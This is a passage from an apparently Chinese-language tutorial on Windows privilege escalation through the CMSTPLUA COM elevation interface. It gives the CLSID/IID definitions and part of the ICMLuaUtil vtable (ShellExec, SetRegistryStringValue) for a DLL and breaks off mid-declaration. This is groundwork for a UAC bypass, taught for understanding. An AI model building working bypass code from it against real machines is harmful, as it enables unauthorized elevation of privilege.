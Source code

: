 <p>系统中还有一个Rundll.exe文件，他的意思是“执行16位的DLL文件”。</p>

<h3 id="代码演示">代码演示</h3>

<p>这是含有COM提升名称代码导出函数的DLL源代码（包含了头文件），对于COM编程不必深究，重要的是提权的原理。</p>

<pre><code class="language-c++">// headers and definitions
#include &#34;pch.h&#34;

#include &lt;objbase.h&gt;
#include &lt;strsafe.h&gt;

#define CLSID_CMSTPLUA                     L&#34;{3E5FC7F9-9A51-4367-9063-A120244FBEC7}&#34;
#define IID_ICMLuaUtil                     L&#34;{6EDD6D74-C007-4E75-B76A-E5740995E24C}&#34;

typedef interface ICMLuaUtil ICMLuaUtil;

typedef struct ICMLuaUtilVtbl {

	BEGIN_INTERFACE

		HRESULT(STDMETHODCALLTYPE* QueryInterface)(
			__RPC__in ICMLuaUtil* This,
			__RPC__in REFIID riid,
			_COM_Outptr_  void** ppvObject);

	ULONG(STDMETHODCALLTYPE* AddRef)(
		__RPC__in ICMLuaUtil* This);

	ULONG(STDMETHODCALLTYPE* Release)(
		__RPC__in ICMLuaUtil* This);

	HRESULT(STDMETHODCALLTYPE* Method1)(
		__RPC__in ICMLuaUtil* This);

	HRESULT(STDMETHODCALLTYPE* Method2)(
		__RPC__in ICMLuaUtil* This);

	HRESULT(STDMETHODCALLTYPE* Method3)(
		__RPC__in ICMLuaUtil* This);

	HRESULT(STDMETHODCALLTYPE* Method4)(
		__RPC__in ICMLuaUtil* This);

	HRESULT(STDMETHODCALLTYPE* Method5)(
		__RPC__in ICMLuaUtil* This);

	HRESULT(STDMETHODCALLTYPE* Method6)(
		__RPC__in ICMLuaUtil* This);

	HRESULT(STDMETHODCALLTYPE* ShellExec)(
		__RPC__in ICMLuaUtil* This,
		_In_     LPCWSTR lpFile,
		_In_opt_  LPCTSTR lpParameters,
		_In_opt_  LPCTSTR lpDirectory,
		_In_      ULONG fMask,
		_In_      ULONG nShow
		);

	HRESULT(STDMETHODCALLTYPE* SetRegistryStringValue)(
		__RPC__in ICMLuaUtil* This,
		_In_      HKEY hKey,
		_In_opt_  LPCTSTR lpSubKey,
		_In_opt_  LPCTSTR lpValueName,
		_In_      LPCTSTR lpValueString
		);
